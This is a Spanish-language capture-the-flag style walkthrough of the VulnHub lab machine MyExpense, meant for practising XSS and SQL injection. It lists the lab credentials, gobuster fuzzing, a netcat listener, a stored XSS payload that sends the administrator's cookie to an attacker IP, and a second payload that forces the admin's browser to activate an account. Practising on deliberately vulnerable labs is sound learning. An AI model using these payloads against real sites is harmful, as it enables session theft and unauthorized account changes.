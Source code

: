 # MyExpense

- Máquina de vulnhub, para practicar XSS y SQL Injection  
- Descarga: <a href="https://www.vulnhub.com/entry/myexpense-1,405/">MyExpense</a>

### Antecedentes
Tenemos un usuario llamado Samuel, que ha sido despedido de la empresa y le deben todavía 750€ de un viaje que hizo. Para cobrarlo, debemos hacer la solicitud a través de la web pero nuestro usuario ha sido eliminado o deshabilitado. Nuestra misión es intentar loguearnos y conseguir cobrar esa cantidad.  
Your credentials were: samuel/fzghn4lw

### Accediendo a la web
FOTO 1
Introducimos la url en el navegador y vamos al apartado para crear una cuenta. El botón de crear cuenta está bloqueado, así que inspeccionamos el codigo fuente y desbloqueamos el botón eliminando la línea **disabled**

FOTOS 2 Y 3

Intentamos hacer login pero nuestra cuenta está deshabilitada

FOTO 4

### Fuzzing

Hacemos fuzzing con gobuster y encontramos la carpeta admin

FOTO 5

seguimos fuzzeando y encontramos admin.php y accedemos. Vemos que aparece un panel con los datos de usuarios, y Samuel y los usuarios creados están deshabilitados. no se pueden deshabilitar. solo puede un administrador.

FOTO 6


### XSS 
En formulario de creación de usuarios se ha detectado que se puede hacer XSS, con lo que con suerte, podremos robar la cookie de sesión del Administrador.  

Ponemos a la escucha con netcat en kali:  
```
nc -lvp 80
```

Introducimos el siguiente codigo en el formulario, por ejemplo en el campo de apellido:  
```
#XSS Payload
<script>img = new Image(); img.src = "http://192.168.43.57/a.php?"+document.cookie;</script>
```
Hemos recibido la cookie!
FOTO 8

Pero no nos sirve porque no puede estar el administrador logueado en 2 equipos distintos a la vez. Así que hay que forzar a que el administrador utilice el botón para activar el usuario.  
Si nos fijamos al clicar el boton, es simplemente una acción que lleva a una URL, probaremos a meter esa url en el código XSS
Para ello volvemos a crear otro usuario y en el apellido, por ejemplo. Metemos el siguiente código:  

```
# XSS Payload
<script>document.write('<img src="http://192.168.56.104/admin/admin.php?id=11&status=active"/>');</script>

```
FOTO 9
esperamos un poco y voilá! se activó!
FOTO 10

